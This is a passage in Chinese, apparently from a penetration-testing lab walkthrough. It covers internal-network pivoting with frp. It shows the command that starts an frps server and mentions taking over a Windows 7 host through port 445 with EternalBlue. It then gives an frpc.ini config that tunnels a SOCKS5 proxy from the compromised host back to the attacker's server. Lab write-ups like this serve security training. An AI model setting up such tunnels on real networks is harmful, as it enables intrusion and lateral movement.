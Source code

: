 ![image-20211015112740343](assets/image-20211015112740343.png)





Ceonts：启动frps服务端

```
[root@localhost frp_0.37.1_linux_amd64]# ./frps -c f2.ini
```

![image-20211015112846906](assets/image-20211015112846906.png)





Win7-1：复制frp_0.37.1_windows_amd64.zip到Win7-1机器上，实际上通过代理探测到445端口开放，利用永恒之蓝拿到Win7-1权限

修改frpc.ini客户端配置如下：

```
[common]
server_addr = 192.168.111.142            #服务端为：Centos:192.168.111.142
server_port = 7000

[socks5_8888]                           #将socks5代理8888端口到服务器上
type = tcp
reomte_port = 8888
plugin = socks5
use_encryption = true
use_compression = true
```
